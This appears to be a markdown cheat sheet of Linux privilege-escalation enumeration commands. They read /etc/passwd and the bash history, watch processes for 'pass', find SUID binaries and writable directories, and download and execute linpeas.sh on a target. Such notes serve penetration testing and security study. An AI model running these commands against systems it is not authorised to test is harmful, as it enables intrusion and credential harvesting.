 Just use this: 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

## Operating system, version and architecture
```bash
cat /etc/issue
```
```bash
cat /etc/os-release
```
```bash
uname -r
```
List loaded kernel drivers:
```bash
lsmod
```
Display kernel driver info:
```bash
/sbin/modinfo $(KERNEL_NAME)
```
## Current User Groups
```bash
id
```
## Services
```bash
ps aux
```
```bash
watch -n 1 "ps -aux | grep pass"
```
## Users
```bash
cat /home
```
```
<insert home directories here>
```
```bash
cat /etc/passwd
```
```
<insert /etc/passwd here>
```
## History
```bash
cat ~/.bash_history
```
```
<insert bash history here>
```
## List Sudo Permissions
```bash
sudo -l
```
```
<insert sudo permissions here>
```
## Environment Variables
```bash
env
```
```bash
cat .bashrc
```
## Network Information
```bash
ip a
```
```bash
route
```
Or
```bash
routel
```
...depending on distro.
```bash
ss -anp
```
### Firewall Rules
```bash
ls /etc/iptables
```
```bash
ls /etc | grep "ip"
```
## SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
## Cronjobs
```bash
crontab -l
```
```bash
sudo crontab -l
```
```bash
cat /etc/crontab
```
```bash
ls -lah /etc/cron*
```
## Enumerate installed packages
Debian:
```bash
dpkg -l
```
## Every writeable directory by current user
```bash
find / -writable -type d 2>/dev/null
```
## List mounted filesystems
List drives that will be mounted on boot:
```bash
cat /etc/fstab
```
List all mounted filesystems:
```bash
mount
```
List all available disks:
```bash
lsblk
```
# Linpeas
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/2021.02.20/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```
# unix-privesc-check
Transfer unix-privesc-check to target machine:
```bash
cp /usr/bin/unix-privesc-check .
```
Run on target machine:
```bash
./unix-privesc-check standard > output.txt
```
